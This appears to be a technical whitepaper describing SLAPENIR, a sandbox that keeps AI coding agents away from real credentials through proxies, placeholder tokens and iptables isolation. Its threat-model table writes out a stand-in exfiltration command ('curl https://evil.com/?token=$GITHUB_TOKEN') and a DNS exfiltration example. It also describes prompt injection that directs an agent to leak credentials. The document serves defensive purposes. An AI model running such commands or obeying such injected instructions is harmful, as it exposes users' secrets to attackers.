# SLAPENIR: Secure LLM Agent Proxy Environment with Network Isolation & Resilience

**Technical Whitepaper**

**Version:** 1.0 | **Date:** 2026-04-10 | **Classification:** IBM Internal

---

## Table of Contents

- [Executive Summary](#executive-summary)
- [Section 1: Abstract & Problem Statement](#section-1-abstract--problem-statement)
- [Section 2: System Architecture Overview](#section-2-system-architecture-overview)
- [Section 3: Network Interactions](#section-3-network-interactions)
- [Section 4: Security Architecture](#section-4-security-architecture)
- [Section 5: Credential Lifecycle & Leak Prevention](#section-5-credential-lifecycle--leak-prevention)
- [Section 6: Network Isolation Deep-Dive](#section-6-network-isolation-deep-dive)
- [Section 7: mTLS & Certificate Architecture](#section-7-mtls--certificate-architecture)
- [Section 8: Agent Execution Environment](#section-8-agent-execution-environment)
- [Section 9: End-to-End Workflow](#section-9-end-to-end-workflow)
- [Section 10: Observability & Audit](#section-10-observability--audit)
- [Section 11: Performance & Scalability](#section-11-performance--scalability)
- [Section 12: Threat Model & Attack Surface](#section-12-threat-model--attack-surface)
- [Section 13: Future Roadmap & Recommendations](#section-13-future-roadmap--recommendations)
- [Appendix A: Glossary](#appendix-a-glossary)
- [Appendix B: Consolidated Code References](#appendix-b-consolidated-code-references)
- [Appendix C: Diagram Index](#appendix-c-diagram-index)

---

# Executive Summary

SLAPENIR (Secure LLM Agent Proxy Environment with Network Isolation & Resilience) is a zero-knowledge execution sandbox designed to host high-privilege autonomous AI agents — systems that can read codebases, write code, execute shell commands, and interact with external APIs without human intervention. The emergence of tools such as OpenCode, Claude Code, and Cursor has created a **trust paradox**: these agents must be powerful enough to perform useful work, but they cannot be trusted with the production credentials that power requires.

**The problem is acute.** Autonomous AI agents exhibit non-deterministic behavior, are vulnerable to prompt injection attacks, and present a large supply chain attack surface. Traditional secret management systems (HashiCorp Vault, AWS Secrets Manager, Kubernetes Secrets) were designed for trusted services with static, reviewed code — not for probabilistic LLM agents that generate runtime behavior from external inputs. None of these solutions address the core requirement: the agent must be able to *use* credentials without ever *seeing* them.

**SLAPENIR enforces a separation of capability and authority** through a 10-layer defense-in-depth architecture. The agent operates exclusively with `DUMMY_*` placeholder tokens while real credentials are held in a memory-protected Rust proxy that performs just-in-time credential injection at the network boundary. All outbound requests have dummies replaced with real credentials via O(N) Aho-Corasick pattern matching. All inbound responses are sanitized through a binary-safe, paranoid double-pass verification pipeline that replaces any real credential with `[REDACTED]` — or returns a 500 error if sanitization cannot be verified (fail-closed design). Network isolation is enforced at the kernel level through iptables default-deny rules, and the proxy IP is explicitly DROPped, ensuring no application-level bypass can reach the internet.

**Key differentiators** against existing alternatives:

| Property | SLAPENIR | HashiCorp Vault Agent | AWS IAM | K8s NetworkPolicies | Envoy Sidecar |
| --- | --- | --- | --- | --- | --- |
| Agent never sees real credentials | Yes | No | No | N/A | No |
| Automatic response sanitization | Yes | No | No | No | Partial |
| Binary-safe credential removal | Yes | No | No | No | No |
| Deterministic memory zeroization | Yes | No | No | No | No |
| Air-gapped LLM support | Yes | No | No | No | No |
| DNS exfiltration prevention | Yes | No | No | Partial | Partial |

**Current status:** The system is production-capable for development use with 5,881 lines of Rust proxy code, 58 Mermaid architecture diagrams, 143 security bypass test cases, a complete iptables enforcement chain, a Step-CA mTLS certificate authority, Prometheus/Grafana observability, and a Criterion benchmark suite. The most significant remaining gap is the incomplete CONNECT tunnel sanitization path (HTTPS MITM), which is the top priority in the four-phase roadmap (Hardening → Capability → Enterprise → Scale, spanning Q3 2026 through Q2 2027).

This whitepaper provides exhaustive technical detail on every network interaction, security mechanism, credential lifecycle stage, and workflow sequence in the SLAPENIR system, along with a detailed threat model and comparative analysis against existing industry alternatives.

---

# Section 1: Abstract & Problem Statement

## 1.1 Abstract

SLAPENIR (Secure LLM Agent Proxy Environment with Network Isolation & Resilience) is a zero-knowledge execution sandbox designed to host high-privilege autonomous AI agents. The system enforces a strict separation between **Capability** — the agent's ability to execute logic, write code, and interact with internal services — and **Authority** — the production credentials required to interact with external systems such as GitHub, AWS, OpenAI, and Slack.

The architecture implements a 10-layer defense-in-depth model spanning network isolation, mutual TLS authentication, credential sanitization, memory-protected secret handling, and kernel-level traffic enforcement. At its core, a Rust-based proxy gateway performs O(N) credential substitution using the Aho-Corasick algorithm, ensuring that AI agents operate exclusively with placeholder tokens (`DUMMY_*`) while real credentials are injected just-in-time at the network boundary and stripped from all responses before reaching the agent.

This whitepaper provides a comprehensive technical analysis of every network interaction, security mechanism, and workflow sequence in the SLAPENIR system, along with a detailed threat model and comparative analysis against existing industry alternatives.

## 1.2 The Problem: Autonomous Agents as Privileged Insiders

### 1.2.1 The Rise of Autonomous Coding Agents

The emergence of autonomous AI coding agents — systems that can read codebases, write code, execute shell commands, and interact with external APIs without human intervention — represents a fundamental shift in software development. Tools such as OpenCode, Claude Code, Cursor, and Cline enable agents to perform complex multi-step engineering tasks: cloning repositories, resolving dependencies, running tests, creating pull requests, and deploying services.

These capabilities demand elevated privileges:

| Agent Capability | Required Privilege | Risk |
| --- | --- | --- |
| Clone private repositories | GitHub personal access token | Token exfiltration to attacker-controlled server |
| Call cloud APIs | AWS access keys, API keys | Unauthorized resource creation, data deletion |
| Read CI/CD secrets | Environment variables | Supply chain compromise |
| Execute arbitrary code | Shell access, filesystem read/write | Memory dumping, credential extraction |
| Install dependencies | Network access to package registries | Malicious package injection, DNS exfiltration |
| Push commits | Git write access | Code injection, backdoor insertion |

### 1.2.2 The Trust Paradox

The fundamental challenge is a **trust paradox**: an autonomous agent must be powerful enough to perform useful work, but it cannot be trusted with the credentials that power requires.

Traditional secret management systems (HashiCorp Vault, AWS Secrets Manager, Kubernetes Secrets) were designed for **trusted services** — human-reviewed code deployed through controlled pipelines. Autonomous AI agents break this model in three ways:

**1. Non-Deterministic Behavior.** An LLM-based agent generates behavior at runtime based on probabilistic inference. The same prompt may produce different actions across runs. There is no code review of the agent's runtime decisions.

**2. Prompt Injection Vulnerability.** External inputs (files, API responses, tickets, documentation) can contain malicious instructions that alter agent behavior. A carefully crafted issue description could instruct an agent to exfiltrate credentials via HTTP requests, DNS queries, or Git pushes.

**3. Supply Chain Attack Surface.** Agents routinely install third-party dependencies, read external documentation, and process untrusted files. Each interaction is a potential attack vector for credential theft.

### 1.2.3 Attack Vectors Against Autonomous Agents


```mermaid
graph TD
    A[Attacker Goal: Steal Production Credentials] --> B[Read from environment variables]
    A --> C[Extract from process memory]
    A --> D[Intercept in network transit]
    A --> E[Exfiltrate via HTTP request]
    A --> F[Exfiltrate via DNS query]
    A --> G[Embed in Git commit]
    A --> H[Extract from log files]
    A --> I[Exploit dependency chain]

    style A fill:#c0392b,color:#fff
    style B fill:#e74c3c,color:#fff
    style C fill:#e74c3c,color:#fff
    style D fill:#e74c3c,color:#fff
    style E fill:#e74c3c,color:#fff
    style F fill:#e74c3c,color:#fff
    style G fill:#e74c3c,color:#fff
    style H fill:#e74c3c,color:#fff
    style I fill:#e74c3c,color:#fff
```

Each of these vectors has been observed in real-world incidents:

| Vector | Example Incident | Impact |
| --- | --- | --- |
| Environment variable dump | Agent executes `env` or `printenv` | All secrets exposed in process output |
| HTTP exfiltration | Agent sends `curl https://evil.com/?token=$GITHUB_TOKEN` | Credential transmitted to attacker |
| DNS exfiltration | Agent resolves `ghp_xxx.evil.com` | Credential encoded in DNS query |
| Git commit embedding | Agent adds secret to source file and pushes | Credential in version control history |
| Dependency confusion | Agent installs malicious package from public registry | Supply chain compromise |
| Memory inspection | Agent triggers core dump or reads `/proc/self/mem` | Secrets recoverable from memory |
| Log file scanning | Agent reads application logs containing secrets | Secrets exposed in diagnostic output |
| Prompt injection | Malicious ticket description instructs credential exfiltration | Agent performs actions on attacker's behalf |

### 1.2.4 Why Existing Solutions Are Insufficient

| Solution | Limitation for AI Agents |
| --- | --- |
| **HashiCorp Vault Agent** | Designed for trusted services with static configuration. Agent templates expose secrets to the application runtime — an LLM agent can simply read the rendered template. |
| **AWS IAM Roles** | Scoped to AWS workloads. Cannot protect GitHub tokens, Slack tokens, or arbitrary API keys. No response sanitization. |
| **Kubernetes NetworkPolicies** | Controls pod-to-pod traffic but cannot inspect or modify HTTP payloads. No credential injection capability. |
| **Environment Variable Injection** | Secrets are directly readable by any process in the container. No protection against `env` or `/proc/pid/environ`. |
| **Sidecar Proxies (Envoy/Istio)** | Can enforce mTLS and rate limiting but cannot perform credential substitution or content-aware sanitization. |
| **Docker Secrets** | Mounted as files readable by any process in the container. No obfuscation or sanitization. |

None of these solutions address the **core requirement**: the agent must be able to *use* credentials (make authenticated API calls) without ever *seeing* them.

## 1.3 The SLAPENIR Approach: Zero-Knowledge Execution

### 1.3.1 Core Principle

SLAPENIR enforces a **separation of capability and authority** through a zero-knowledge architecture:

- **Capability** (in the agent): the ability to execute code, call APIs, write files, and interact with development tools.
- **Authority** (in the proxy): possession of real production credentials and the logic to inject them into outbound requests.

The agent operates exclusively with placeholder tokens. It can construct API requests, understand authentication protocols, and interact with external services — but it never possesses the actual credentials that authorize those interactions.

### 1.3.2 The Zero-Knowledge Contract

```text
┌─────────────────────────────────────────────────────────────┐
│                    ZERO-KNOWLEDGE CONTRACT                  │
├─────────────────────────────────────────────────────────────┤
│                                                             │
│  1. The agent environment contains NO real credentials.     │
│     Every secret is replaced with DUMMY_* placeholders.     │
│                                                             │
│  2. The proxy holds real credentials in memory-protected    │
│     storage. It never exposes them to the agent.            │
│                                                             │
│  3. All network traffic between agent and internet          │
│     passes through the proxy for injection and sanitization.│
│                                                             │
│  4. All responses from external services are sanitized      │
│     before reaching the agent. Real secrets are replaced    │
│     with [REDACTED].                                        │
│                                                             │
│  5. The agent has NO direct internet access. All traffic    │
│     is filtered through kernel-level iptables rules.        │
│                                                             │
│  6. Memory containing secrets is deterministically wiped    │
│     (zeroized) when no longer needed.                       │
│                                                             │
└─────────────────────────────────────────────────────────────┘
```

### 1.3.3 Key Properties

| Property | Implementation | Verification |
| --- | --- | --- |
| Agent never sees real credentials | DUMMY_* environment variables, validated at startup | `startup-validation.sh` scans for real credential patterns |
| Credentials cannot be exfiltrated via HTTP | Proxy blocked by iptables default, only enabled via setuid `netctl` | iptables chain audit, bypass attempt logging |
| Credentials cannot be exfiltrated via DNS | DNS restricted to whitelist (8.8.8.8, 1.1.1.1 only) | iptables DROP rules for all other DNS |
| Credentials cannot be extracted from memory | Rust ownership + Zeroize trait, no `unsafe` blocks in proxy | `cargo test`, memory safety audit |
| Responses cannot leak credentials back | Aho-Corasick binary-safe sanitization + paranoid double-pass | `security_bypass_tests.rs` (143 test cases) |
| Code cannot leak to internet | iptables default-DROP, OpenCode deny rules for curl/wget | `verify-network-isolation.sh` |

## 1.4 Document Scope

This whitepaper provides exhaustive technical detail on:

1. **Every network interaction** — packet-level walkthroughs of all 9 distinct traffic paths in the system
2. **Security architecture** — complete analysis of all 10 defense layers with effectiveness ratings
3. **Credential lifecycle** — from loading to injection to sanitization to memory zeroization
4. **Code and secret leak prevention** — how the system prevents both credential exfiltration and proprietary code leakage
5. **Workflow sequence** — the structured 5-phase process for secure autonomous development
6. **Threat model** — adversary profiles, attack trees, and comparative analysis against alternatives

## 1.5 Key Terminology

| Term | Definition |
| --- | --- |
| **Agent** | The untrusted AI execution environment running in an isolated Docker container |
| **Proxy** | The trusted Rust gateway that performs credential injection and response sanitization |
| **SecretMap** | The in-memory data structure holding the DUMMY→REAL credential mapping |
| **DUMMY_*** | Placeholder token pattern used by the agent (e.g., `DUMMY_OPENAI`, `DUMMY_GITHUB`) |
| **[REDACTED]** | Replacement string substituted for real credentials in sanitized responses |
| **slape-net** | The Docker bridge network (172.30.0.0/24) connecting all services |
| **TRAFFIC_ENFORCE** | The custom iptables chain enforcing network isolation on the agent container |
| **netctl** | A setuid root C binary allowing the agent user to temporarily enable proxy access |
| **ALLOW_BUILD** | Environment variable that, when set to `1`, temporarily opens network access for build tool dependency resolution |
| **Step-CA** | The Smallstep certificate authority providing automated mTLS certificate management |
| **MCP** | Model Context Protocol — the standard for AI agent tool integration |
| **Code-Graph-RAG** | An AST-based code retrieval system using Memgraph for semantic code queries |
| **Zeroize** | The Rust crate that guarantees memory is overwritten with zeros on deallocation |

### Key Takeaways

1. Autonomous AI agents create a **trust paradox** — they need powerful credentials but cannot be trusted with them.

2. Six existing secret management solutions were evaluated; **none** provide the core property of allowing credential use without credential exposure.

3. SLAPENIR's zero-knowledge contract ensures the agent never possesses real credentials, with verification at startup, runtime, and extraction.

4. Eight documented attack vectors (environment dump, HTTP/DNS/Git exfiltration, memory inspection, prompt injection, supply chain, log scanning) are all addressed by the defense-in-depth architecture.

---

---

# Section 2: System Architecture Overview

### 1. High-Level Architecture

SLAPENIR is a polyglot system composed of five functional planes, each responsible for a distinct aspect of the zero-knowledge execution sandbox.


```mermaid
graph TB
    subgraph HOST["HOST (Trusted)"]
        LLM["llama-server<br/>:8080"]
        ENV[".env<br/>(Real Credentials)"]
        SSH["SSH Keys<br/>GPG Keys"]
        GIT["Git Push Authority"]
    end

    subgraph SLAPENET["slape-net (172.30.0.0/24)"]
        subgraph IDENTITY["Identity Plane"]
            CA["Step-CA<br/>:9000"]
        end

        subgraph SECURITY["Security Plane"]
            PROXY["Rust Proxy<br/>:3000<br/>Credential Injection & Sanitization"]
        end

        subgraph EXECUTION["Execution Plane"]
            AGENT["Agent (Wolfi OS)<br/>OpenCode + MCP Tools"]
        end

        subgraph KNOWLEDGE["Knowledge Plane"]
            MG["Memgraph<br/>:7687"]
            MGL["Memgraph Lab<br/>:7688"]
            PG["PostgreSQL<br/>:5432"]
        end

        subgraph OBSERVABILITY["Observability Plane"]
            PROM["Prometheus<br/>:9090"]
            GRAF["Grafana<br/>:3001"]
        end
    end

    CA --> | Issues mTLS certs | PROXY
    CA --> | Issues mTLS certs | AGENT
    AGENT --> | HTTP/HTTPS via proxy | PROXY
    PROXY --> | Inject credentials | INTERNET["Internet APIs<br/>(GitHub, OpenAI, AWS, etc.)"]
    INTERNET --> | Sanitize responses | PROXY
    PROXY --> | Clean responses | AGENT
    AGENT --> | Bolt protocol | MG
    AGENT --> | SQL queries | PG
    PROXY --> | Metrics :3000/metrics | PROM
    AGENT --> | Metrics :8000/metrics | PROM
    PROM --> | Datasource | GRAF
    AGENT -.-> | Direct iptables ACCEPT | LLM

    style HOST fill:#27ae60,color:#fff
    style SLAPENET fill:#2c3e50,color:#fff
    style IDENTITY fill:#8e44ad,color:#fff
    style SECURITY fill:#c0392b,color:#fff
    style EXECUTION fill:#d35400,color:#fff
    style KNOWLEDGE fill:#2980b9,color:#fff
    style OBSERVABILITY fill:#16a085,color:#fff
```

#### Component Summary

| Component | Technology | Purpose | Trust Level |
| --- | --- | --- | --- |
| **Step-CA** | Smallstep `step-ca` | Automated mTLS certificate authority | Trusted (Infrastructure) |
| **Proxy** | Rust (tokio, axum, aho-corasick) | Credential injection, response sanitization | Semi-Trusted (holds secrets) |
| **Agent** | Wolfi OS, Python 3.12, s6-overlay | Untrusted AI agent execution environment | Untrusted |
| **Memgraph** | In-memory graph database | AST-based code graph for Code-Graph-RAG | Trusted (Data) |
| **PostgreSQL** | PostgreSQL 16 | API definition auto-detection database | Trusted (Data) |
| **Prometheus** | Prometheus | Metrics collection from proxy and agent | Trusted (Monitoring) |
| **Grafana** | Grafana | Dashboard visualization | Trusted (Monitoring) |

---

### 2. Trust Boundary Model

The system defines three trust zones with strict boundaries between them.

```text
┌─────────────────────────────────────────────────────────┐
│                    TRUST ZONE: HOST                     │
│                  (Fully Trusted)                        │
│                                                         │
│  • Real credentials in .env                             │
│  • SSH keys and GPG keys for git operations             │
│  • Git push authority (final code review)               │
│  • llama-server on :8080 (local LLM inference)          │
│  • Secret scanning tools (gitleaks, trufflehog)         │
│                                                         │
│  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐   │
│  │ Human Review │  │ Git Push     │  │ Secret Scan  │   │
│  │ (git diff)   │  │ (final gate) │  │ (pre-push)   │   │
│  └──────────────┘  └──────────────┘  └──────────────┘   │
└────────────────────────┬────────────────────────────────┘
                         │ docker cp (copy-in / copy-out)
                         │ .env mounted read-only
                         │ SSH socket mounted read-only
                         │ LLM accessible via host.docker.internal
                         │
┌────────────────────────┼────────────────────────────────┐
│            TRUST ZONE: PROXY (Semi-Trusted)             │
│                         │                               │
│  • Holds real credential mapping (SecretMap)            │
│  • Memory-protected via Zeroize trait                   │
│  • Never exposes secrets to agent                       │
│  • All traffic audited and logged                       │
│  • BLOCKED by default in agent iptables                 │
│                         │                               │
│  ┌──────────────────────┴───────────────────────────┐   │
│  │              Middleware Pipeline                 │   │
│  │  Layer 1: mTLS Termination                       │   │
│  │  Layer 2: Request Injection (DUMMY → REAL)       │   │
│  │  Layer 3: Response Sanitization (REAL → REDACTED)│   │
│  │  Layer 4: Header Sanitization                    │   │
│  │  Layer 5: Paranoid Verification                  │   │
│  └──────────────────────────────────────────────────┘   │
└────────────────────────┬────────────────────────────────┘
                         │ mTLS (when enabled)
                         │ HTTP (default)
                         │ iptables DROP by default
                         │
┌────────────────────────┼────────────────────────────────┐
│            TRUST ZONE: AGENT (Untrusted)                │
│                         │                               │
│  • DUMMY_* placeholders only — no real credentials      │
│  • No internet access (proxy BLOCKED in iptables)       │
│  • Local LLM accessible (:8080 only)                    │
│  • Build tools blocked by default                       │
│  • ALLOW_BUILD=1 enables proxy temporarily              │
│  • netctl setuid binary for iptables control            │
│  • BASH_ENV trap intercepts build commands              │
│  • Node.js fetch patched (no web access)                │
│  • curl/wget/webfetch denied in opencode.json           │
│  • Workspace reset between sessions                     │
│                         │                               │
│  ┌──────────┐  ┌──────────┐  ┌──────────┐               │
│  │ OpenCode │  │ MCP      │  │ Build    │               │
│  │ (AI IDE) │  │ Tools    │  │ Wrappers │               │
│  └──────────┘  └──────────┘  └──────────┘               │
└─────────────────────────────────────────────────────────┘
```

#### Trust Boundary Rules

| Boundary | Direction | Allowed | Mechanism |
| --- | --- | --- | --- |
| Host → Agent | Inbound | Code, tickets, config | `docker cp` via `make copy-in` |
| Agent → Host | Outbound | Code changes | `docker cp` via `make copy-out-safe` |
| Host → Agent | Inbound | Real .env (read-only mount) | Docker volume `:ro` |
| Agent → Proxy | Outbound | HTTP/HTTPS requests | iptables DROP by default, netctl enables |
| Proxy → Internet | Outbound | Authenticated API calls | Hyper HTTP client with injected credentials |
| Internet → Proxy | Inbound | API responses | Size-limited, sanitized |
| Proxy → Agent | Inbound | Sanitized responses | All secrets replaced with `[REDACTED]` |
| Agent → LLM | Outbound | Inference requests | iptables ACCEPT for `host.docker.internal:8080` |
| Agent → Memgraph | Outbound | Code graph queries | iptables ACCEPT for `172.30.0.0/24` |
| Agent → Internet | Outbound | **DENIED** | iptables REJECT + Docker network isolation |

---

### 3. Docker Network Topology

All services communicate over a single Docker bridge network with controlled external routing.


```mermaid
graph LR
    subgraph SLAPENET["slape-net (172.30.0.0/24)"]
        CA["step-ca<br/>.0.4<br/>:9000"]
        PROXY["proxy<br/>.0.3<br/>:3000"]
        AGENT["agent<br/>.0.2"]
        MG["memgraph<br/>.0.6<br/>:7687"]
        MGL["memgraph-lab<br/>.0.7<br/>:3000→7688"]
        PG["postgres<br/>.0.5<br/>:5432"]
        PROM["prometheus<br/>.0.8<br/>:9090"]
        GRAF["grafana<br/>.0.9<br/>:3000→3001"]
    end

    subgraph HOST["Host Machine"]
        LLM["llama-server<br/>:8080"]
    end

    subgraph INTERNET["Internet"]
        API["GitHub API<br/>OpenAI API<br/>AWS APIs<br/>Slack API"]
    end

    AGENT --> | Bolt :7687 | MG
    AGENT --> | SQL :5432 | PG
    AGENT -.-> | HTTP :3000<br/>BLOCKED by default | PROXY
    PROXY --> | Authenticated<br/>HTTPS | API
    PROXY --> | host.docker.internal | LLM
    AGENT --> | host.docker.internal:8080<br/>iptables ACCEPT | LLM
    PROM --> | Scrape :3000/metrics | PROXY
    PROM --> | Scrape :8000/metrics | AGENT
    PROM --> | Datasource | GRAF
    MGL --> | Bolt :7687 | MG

    linkStyle 2 stroke:#c0392b,stroke-dasharray: 5 5
    linkStyle 3 stroke:#27ae60
    linkStyle 4 stroke:#27ae60

    style SLAPENET fill:#2c3e50,color:#fff
    style HOST fill:#27ae60,color:#fff
    style INTERNET fill:#7f8c8d,color:#fff
```

#### Network Configuration

```yaml
networks:
  slape-net:
    name: slape-net
    driver: bridge
    internal: ${NETWORK_INTERNAL:-false}
    ipam:
      config:

        - subnet: 172.30.0.0/24

```

**Ref:** `docker-compose.yml:387-401`

| Property | Value | Rationale |
| --- | --- | --- |
| Driver | `bridge` | Standard Docker isolation, no overlay complexity |
| Subnet | `172.30.0.0/24` | Fixed subnet for predictable iptables rules |
| Internal | `false` (default) | Allows agent to reach `host.docker.internal` for local LLM |
| Internal | `true` (air-gap mode) | Full isolation — no host routing, no local LLM support |

#### Service Dependency Graph


```mermaid
graph TD
    CA["step-ca<br/>(Phase 1)"] --> | service_healthy | PROXY["proxy<br/>(Phase 2)"]
    PG["postgres<br/>(Phase 1)"] --> | service_healthy | PROXY
    PROXY --> | service_healthy | AGENT["agent<br/>(Phase 3)"]
    MG["memgraph<br/>(standalone)"] --> | service_healthy | MGL["memgraph-lab"]
    AGENT --> PUMBA["pumba<br/>(chaos profile)"]
    PROXY --> PUMBA
    AGENT --> PROM["prometheus<br/>(logs profile)"]
    PROXY --> PROM
    PROM --> GRAF["grafana<br/>(logs profile)"]

    style CA fill:#8e44ad,color:#fff
    style PG fill:#8e44ad,color:#fff
    style PROXY fill:#c0392b,color:#fff
    style AGENT fill:#d35400,color:#fff
    style MG fill:#2980b9,color:#fff
    style MGL fill:#2980b9,color:#fff
    style PUMBA fill:#7f8c8d,color:#fff
    style PROM fill:#16a085,color:#fff
    style GRAF fill:#16a085,color:#fff
```

**Ref:** `docker-compose.yml:154-158` (proxy depends_on), `docker-compose.yml:265-267` (agent depends_on)

---

### 4. Polyglot Technology Stack

#### 4.1 Stack Rationale

The system uses a polyglot architecture where each component is implemented in the language best suited to its security and performance requirements.

| Component | Language | Rationale |
| --- | --- | --- |
| **Proxy** | Rust (Edition 2021) | Deterministic memory management, zeroize for secret wiping, no GC pauses, O(N) pattern matching |
| **Agent OS** | Wolfi (Chainguard) | glibc compatibility (unlike Alpine/musl), signed packages with SBOMs, minimal attack surface |
| **Agent Scripts** | Python 3.12 + Bash | Rich ecosystem for AI tooling, flexible process supervision |
| **Process Supervisor** | s6-overlay | Correct signal handling and zombie reaping inside Docker, lightweight PID 1 |
| **Certificate Authority** | Smallstep step-ca | Automated certificate lifecycle management, ACME protocol support |
| **Graph Database** | Memgraph | In-memory, real-time code graph queries, no license restrictions |
| **Vector Store** | LanceDB | Embedded (no server), columnar storage, efficient for document embeddings |
| **Embedding Model** | all-MiniLM-L6-v2 | Local model, no API key required, air-gapped operation |
| **SQL Database** | PostgreSQL 16 | Auto-detection API definitions, robust query engine |

#### 4.2 Architectural Decision Records

| Decision | Choice | Alternative | Rationale |
| --- | --- | --- | --- |
| **Proxy language** | Rust | Go | Go's GC cannot guarantee immediate memory wiping. Rust's `Drop` + `Zeroize` provides deterministic cleanup. |
| **Agent OS** | Wolfi | Alpine | Alpine's musl libc breaks Python AI wheels (PyTorch, NumPy). Wolfi provides glibc with Alpine's minimal footprint. |
| **Process supervision** | s6-overlay | supervisord / Bash | Bash handles signals poorly (zombie processes). s6 is lightweight, PID 1 capable, handles restarts correctly. |
| **Pattern matching** | Aho-Corasick | Standard regex | Regex is O(N*M) with backtracking risk. Aho-Corasick is O(N) with deterministic performance. |
| **Graph database** | Memgraph | Neo4j | Memgraph is in-memory (faster for real-time queries), no license restrictions, compatible with Neo4j drivers. |
| **Vector database** | LanceDB | Chroma, Pinecone | LanceDB is embedded (no server process), columnar storage, no external dependencies. |
| **Embedding model** | all-MiniLM-L6-v2 | OpenAI embeddings | Local model, no API key, air-gapped operation, 384-dim vectors, 22MB size. |
| **Network isolation** | Docker bridge + iptables | Kubernetes NetworkPolicies | Simpler deployment, kernel-level enforcement, no K8s dependency. |
| **Traffic control** | setuid netctl binary | sudo | Reduced privilege escalation surface — binary only allows `enable`/`disable`/`status` commands. |
| **Ingress** | Docker port mapping | Cloudflare / Nginx | Simple localhost-only access, no external ingress, no certificate management overhead. |

---

### 5. Service Inventory

#### 5.1 Core Services (Default Profile)

| Service | Image | Container Name | Host Port | IP (approx.) | Health Check |
| --- | --- | --- | --- | --- | --- |
| step-ca | `smallstep/step-ca:latest` | slapenir-ca | 9000 | 172.30.0.4 | `step ca health` (30s start, 10s interval) |
| memgraph | `memgraph/memgraph:latest` | slapenir-memgraph | 7687 | 172.30.0.6 | Bolt socket connect (10s start, 10s interval) |
| memgraph-lab | `memgraph/lab:latest` | slapenir-memgraph-lab | 7688 | 172.30.0.7 | HTTP wget spider (10s start, 30s interval) |
| postgres | `postgres:16-alpine` | slapenir-postgres | 5432 | 172.30.0.5 | `pg_isready` (10s interval) |
| proxy | Custom Rust build | slapenir-proxy | 3000 | 172.30.0.3 | `curl /health` (10s start, 30s interval) |
| agent | Custom Wolfi build | slapenir-agent | — | 172.30.0.2 | Python + opencode check (5s start, 30s interval) |

**Ref:** `docker-compose.yml:1-270`

#### 5.2 Optional Services

| Service | Profile | Purpose | Trigger |
| --- | --- | --- | --- |
| pumba | `chaos` | Chaos engineering (network pause, kill) | `docker compose --profile chaos up` |
| prometheus | `logs` | Metrics collection and storage | `docker compose --profile logs up` or `make up-logs` |
| grafana | `logs` | Dashboard visualization | `docker compose --profile logs up` or `make up-logs` |

#### 5.3 Volume Inventory

| Volume | Purpose | Persistence |
| --- | --- | --- |
| `slapenir-ca-config` | Step-CA PKI state, keys, database | Survives restart |
| `slapenir-postgres-data` | PostgreSQL data (API definitions) | Survives restart |
| `slapenir-memgraph-data` | Graph database state | Survives restart |
| `slapenir-proxy-certs` | Proxy TLS certificates (read-only mount) | Survives restart |
| `slapenir-agent-certs` | Agent TLS certificates (read-only mount) | Survives restart |
| `slapenir-agent-workspace` | Agent working directory (cloned repos) | Survives restart |
| `slapenir-agent-ssh` | SSH key persistence | Survives restart |
| `slapenir-mcp-memory` | MCP Memory SQLite database | Survives restart |
| `slapenir-mcp-knowledge` | MCP Knowledge LanceDB index | Survives restart |
| `slapenir-huggingface-cache` | Embedding model cache | Survives restart |
| `slapenir-gradle-cache` | Gradle dependency cache | Survives restart |
| `slapenir-prometheus-data` | Prometheus metrics (30-day retention) | Survives restart |
| `slapenir-grafana-data` | Grafana dashboard state | Survives restart |

**Ref:** `docker-compose.yml:409-489`

---

### 6. Agent Container Architecture

#### 6.1 Build Layers

The agent Dockerfile builds from `cgr.dev/chainguard/wolfi-base:latest` through 12 distinct layers:


```mermaid
graph TD
    A["Layer 1: Wolfi Base<br/>(cgr.dev/chainguard/wolfi-base)"]
    A --> B["Layer 2: System Packages<br/>(Python 3.12, Java 21, Node.js, git, iptables)"]
    B --> C["Layer 3: OpenCode CLI<br/>(musl binary + glibc alias)"]
    C --> D["Layer 4: s6-overlay v3.1.6.2<br/>(process supervision)"]
    D --> E["Layer 5: step-cli binary<br/>(copied from smallstep/step-ca)"]
    E --> F["Layer 6: Agent user (uid 1000)<br/>(non-root execution)"]
    F --> G["Layer 7: Scripts & Config<br/>(all .sh, .py, .json, .c)"]
    G --> H["Layer 8: Package Manager Caches<br/>(Gradle, npm, pip pre-cached)"]
    H --> I["Layer 9: Python Dependencies<br/>(requests, pydantic, prometheus-client)"]
    I --> J["Layer 10: Code-Graph-RAG + Tree-sitter<br/>(vendored AST parsing)"]
    J --> K["Layer 11: MCP Servers<br/>(memory, knowledge, all-MiniLM-L6-v2)"]
    K --> L["Layer 12: Binary Shadowing + netctl<br/>(build wrappers + setuid binary)"]

    style A fill:#2c3e50,color:#fff
    style L fill:#c0392b,color:#fff
```

**Ref:** `agent/Dockerfile:1-325`

#### 6.2 Critical Build-Time Security Measures

| Line(s) | Measure | Purpose |
| --- | --- | --- |
| `267-277` | Binary shadowing: `gradle` → `gradle.real` + wrapper symlink | Intercept all build tool invocations for security checks |
| `281-285` | `netctl.c` compiled with `gcc -static`, `chmod 4755` | Setuid root binary for controlled iptables manipulation |
| `227-250` | Pre-download `Xenova/all-MiniLM-L6-v2` embedding model | Air-gapped vector search, no runtime downloads |
| `303-314` | `BASH_ENV=allow-build-trap.sh`, `NODE_OPTIONS=--require=node-fetch-port-fix.js` | Intercept build commands and block web access |
| `317` | `S6_RUNASUSER=agent` | s6 drops privileges for user services |
| `324` | `ENTRYPOINT ["/init"]` | s6-overlay init as PID 1 |

**Note:** The container runs as root (no `USER agent` directive) so s6-overlay can manipulate iptables in `cont-init.d` scripts. s6-overlay then drops privileges via `S6_RUNASUSER=agent` for all supervised services.

#### 6.3 Process Supervision Tree

```text
PID 1: /init (s6-overlay)
├── cont-init.d/ (root-privileged, runs once)
│   ├── 00-fix-permissions         → chown workspace to agent:agent
│   ├── 01-traffic-enforcement     → Set up iptables LOCKED mode
│   └── 02-populate-huggingface-cache → Copy ML model to runtime volume
│
└── s6-rc.d/ (runs as agent user)
    ├── env-init (oneshot)          → Load host .env
    ├── env-dummy-init (oneshot)    → Generate DUMMY_* credentials
    ├── bash-init (oneshot)         → Generate .bashrc with traps
    ├── git-init (oneshot)          → Configure git credentials
    ├── gpg-init (oneshot)          → Configure GPG signing
    ├── build-config (oneshot)      → Configure package managers
    ├── startup-validation (oneshot)→ Run 9-test security suite
    ├── memgraph-verify (oneshot)   → Check Memgraph connectivity
    ├── ollama-verify (oneshot)     → Check LLM connectivity
    ├── agent-svc (longrun)         → Main agent process (agent.py)
    ├── runtime-monitor (longrun)   → Continuous iptables integrity check
    └── metrics (longrun)           → Prometheus metrics exporter
```

**Ref:** `agent/s6-overlay/` directory structure

---

